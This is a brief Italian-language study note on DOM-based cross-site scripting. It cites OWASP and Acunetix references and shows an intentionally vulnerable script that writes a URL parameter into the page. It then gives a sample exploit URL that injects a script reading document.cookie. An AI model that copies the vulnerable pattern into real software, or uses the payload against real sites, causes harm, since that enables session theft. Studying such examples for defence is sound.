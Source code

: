 ## XSS (DOM)

- https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
- https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)
- https://www.acunetix.com/blog/articles/dom-xss-explained/

Il payload viene eseguito in modo da modificare sul browser della vittima un elemento DOM, usato originariamente dallo script client-side.

Codice vulnerabile:

`http://www.some.site/page.html?default=French`

```
<select><script>

document.write("<OPTION value=1>"+document.location.href.substring(document.location.href.indexOf("default=")+8)+"</OPTION>");

document.write("<OPTION value=2>English</OPTION>");

</script></select>
```

Exploit:

```
http://www.some.site/page.html?default=<script>alert(document.cookie)</script>
```

